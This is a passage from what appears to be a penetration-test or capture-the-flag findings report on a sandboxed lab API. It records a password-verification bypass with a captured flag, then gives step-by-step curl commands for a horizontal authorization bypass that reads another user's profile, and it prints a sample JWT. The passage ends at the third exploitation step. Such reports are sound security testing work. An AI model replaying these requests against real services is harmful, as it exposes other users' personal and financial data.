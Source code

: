     ```
    

**Proof of Impact:**

- Successfully obtained valid JWT token: "Keep it up!"
- Bypassed password verification entirely
- Captured CTF flag: `flag{Impr0peR_Ass3ts_ManAg3m3nt}`
- Gained authenticated session for further exploitation

### AUTHZ-VULN-03: Horizontal Authorization Bypass - Profile Access (High Impact)

**Summary:**

- **Vulnerable location:** GET /api/profiles/{username}
- **Overview:** Any authenticated user can access any other user's profile data including sensitive financial information
- **Impact:** Unauthorized access to personally identifiable information and financial data
- **Severity:** High

**Prerequisites:**

- Valid authentication token (obtained from AUTHZ-VULN-07)
- Knowledge of target usernames (TeamR$cket contains sensitive data)

**Exploitation Steps:**

1. **Register legitimate user account:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/users>" \\
      -H "Content-Type: application/json" \\
      -d '{
        "user": {
          "username": "exploiter1",
          "email": "exploiter1@test.com",
          "password": "SecurePass123!"
        }
      }'
    
    ```
    
2. **Extract JWT token from registration response:**
    
    ```
    Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImV4cGxvaXRlcjEiLCJleHAiOjE3NTkxNzQ1MzcsInN1YiI6ImFjY2VzcyJ9.vQVA7XoKGUtj14ZrL4SGNriRIPMtjZkmIZ67NTqAJZU
    
    ```
    
3. **Access another user's profile (TeamR$cket):**
    
    ```bash
    curl "<http://capital-api.sandbox.local:8000/api/profiles/TeamR\\$cket>" \\
      -H "Authorization: Token [JWT_TOKEN]"
    
    ```
    